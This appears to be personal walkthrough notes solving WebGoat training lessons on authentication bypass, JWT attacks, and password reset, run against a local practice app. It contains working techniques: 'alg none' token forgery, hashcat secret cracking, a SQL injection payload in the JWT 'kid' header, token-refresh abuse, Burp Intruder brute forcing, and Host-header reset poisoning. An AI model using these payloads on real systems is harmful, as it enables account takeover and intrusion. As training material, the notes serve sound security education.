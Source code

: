 # Authentication Bypass
### 2
	Method from the story doesn't work.
	But tempering with the names of the variables does.
	Change variable names to 'SecurityQuestionA' and 'SecurityQuestionB'.

# JWT Tokens
### 3
	Paste token to the WebWolf JWT tab and find name "user".
### 5
	Eavesdrop JWT from Tom.
	Put it to WebWolf and change:
	1. {
		"alg" : null
		}
	2. {
		"admin" : "true",
		"iat" : 1649869119, # this may be different
		"user" : "Tom"
		}

### 5
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parseClaimsJws-java.lang.String-
http://javadox.com/io.jsonwebtoken/jjwt/0.4/io/jsonwebtoken/JwtParser.html#parse-java.lang.String-

eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0NTY3ODkwIiwidXNlciI6IkpvaG4gRG9lIiwiYWRtaW4iOnRydWUsImlhdCI6MTUxNjIzOTAyMn0. = 
{
  "alg" : "none",
  "typ" : "JWT"
}
{
  "admin" : true,
  "iat" : 1516239022,
  "sub" : "1234567890",
  "user" : "John Doe"
}

1. Solution 1
2. Solution 3

### 8
Looked for dictionary: https://github.com/first20hours/google-10000-english

hashcat --force -m 16500 <token> google-10000-english.txt.
while knowing secret key: https://jwt.io/.
change username to WebGoat and change expiration date.
paste secret key in the bottom, without "secret base64 encoded".
copy "encoded" field.

### 10
open page 10 while in burp's browser
go to http history
find http://localhost:8080/WebGoat/JWT/refresh/login
find
Jerry:
{"user":"Jerry","password":"bm5nhSkxCXZkKRy4"}
and
{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "OxTyJabcgcphndIYFhXB"
}

Tom:
{
	token=eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
}
now create request, request must have:
- POST request - @PostMapping
- Authorization header - Tom’s access token from the given log entries
- Content-Type header - 'application/json'
- data in JSON format access and refresh tokens - Jerry’s tokens copied straight from the /login endpoint response

so for example:
POST /WebGoat/JWT/refresh/newToken HTTP/1.1
Host: localhost:8080
Content-Length: 223
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
Authorization: Bearer eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE1MjYxMzE0MTEsImV4cCI6MTUyNjIxNzgxMSwiYWRtaW4iOiJmYWxzZSIsInVzZXIiOiJUb20ifQ.DCoaq9zQkyDH25EcVWKcdbyVfUL4c9D4jRvsqOqvi9iAd4QuqmKcchfbU8FNzeBNF9tLeFXHZLU4yRkq-bjm7Q
Content-Type: application/json
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
X-Requested-With: XMLHttpRequest
sec-ch-ua-platform: "Linux"
Origin: http://localhost:8080
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8080/WebGoat/start.mvc
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=JvEkLZzu6hJuRITdAYRWW3U51wFko7S4wOSoieys
Connection: close

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IkplcnJ5In0.Z-ZX2L0Tuub0LEyj9NmyVADu7tK40gL9h1EJeRg1DDa6z5_H-SrexH1MYHoIxRyApnOP7NfFonP3rOw1Y5qi0A",
  "refresh_token" : "OxTyJabcgcphndIYFhXB"
}

I got back 

{
  "access_token" : "eyJhbGciOiJIUzUxMiJ9.eyJhZG1pbiI6ImZhbHNlIiwidXNlciI6IlRvbSJ9.a4yUoDOuv6L7ICs-HsE6craLHG_u6YDTkmXiGHjF7GdJZVZWCTurWBBunW9ujab8f4vNG31XAEvWYUEmAt0SGg",
  "refresh_token" : "XkuwXVEsoUNdtwejywFz"
}

then send to repeater some POST checkout:

### 11
Open browser from Burp.

by clicking Delete we get request:

POST /WebGoat/JWT/final/delete?token=eyJ0eXAiOiJKV1QiLCJraWQiOiJ3ZWJnb2F0X2tleSIsImFsZyI6IkhTMjU2In0.eyJpc3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwNCwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiSmVycnkiLCJFbWFpbCI6ImplcnJ5QHdlYmdvYXQuY29tIiwiUm9sZSI6WyJDYXQiXX0.CgZ27DzgVW8gzc0n6izOU638uUCi6UhiOJKYzoEZGE8 HTTP/1.1

In the code for this lesson.
```
ResultSet rs = connection.createStatement().executeQuery("SELECT key FROM jwt_keys WHERE id = '" + kid + "'");
```
So we need to put something like as 'kid':
' UNION SELECT 'bmV3X2tleQ==' FROM jwt_keys; --

and produce jwt in jwt.io, also verify signature with:
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
new_key

) secret base64 encoded

and then send it via Repeater

# Password Reset
### 2 
send email to WebWolf
login with 'leirbag'


### 4 
- open burp
- try to login while intercepting
- put it into intruder
- select **cluster bomb** type
- payload set 1:
  - tom
  - larry
  - admin
- payload set 2:
  - red
  - green
  - black
  - white
  - pink
  - orange
  - blue
  - gray
  - yellow
  - brown

answers: 
- larry; yellow
- admin; green


### 6
- via Burp
- use tom mail in the form 
- intercept restePassword message
- change Host header to "localhost:9090"
- open WebWOlf
- go to Incoming Requests
- copy uri of last request
- change port to 8080 and add /WebGoat after
- paste link
- than you can login

# Secure Passwords
# 4 
"Just because you shot Jesse James doesn't mean you are Jesse James." - JbysJJdmyaJJ
